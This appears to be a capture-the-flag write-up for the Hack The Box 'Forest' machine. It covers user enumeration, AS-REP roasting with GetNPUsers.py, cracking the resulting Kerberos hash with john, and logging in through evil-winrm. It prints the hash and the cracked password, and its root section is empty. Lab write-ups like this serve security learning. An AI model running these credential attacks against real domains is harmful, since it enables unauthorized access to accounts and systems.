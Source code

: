 # Forest
## User 

after an enum4linux we can get a bunch of users list them into a file usernames.txt set the /etc/hosts file properly then:
```bash
python GetNPUsers.py htb.local/ -usersfile ../../../HackTheBox/forest/usernames.txt -format john 
```
we get:
```
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:694611eec7e3b79f661f40e92ab84f13$a2815a08334f182d3386b4745213238fbff0acfe73d3d6da0c8d46b8fa1e93e8af095c25da726e76f5cb30d879133dd605456cf8583020d18917a933299f33704e77a805c71b053474b635c0e52a22cda3fae86b3e794e057add4ad051c1fb6d7416dc36b225c017ee12e0e786c71cf72cd613bd1ce8281108d4b1855b1d0007590dfd339dc62de725eacb350b1a42fc895c3c55d08dfa6545540a6c12742c5a5e7dc9fb962c68f63d4b8a639045dbf53f75f14b853be12fc00ad2d7c82527ac8a3fbcd1e9c8036f74840f8c85e2e1de7fc1d60ca06591b681ec50d3477657ca8f61d945f84d
```
after john:
```bash
john hash_john --wordlist=/home/floki/wordlists/rockyou.txt
```
we get : $krb5asrep$svc-alfresco@HTB.LOCAL:s3rvice

so we can connect with:
```bash
ruby evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

## Root
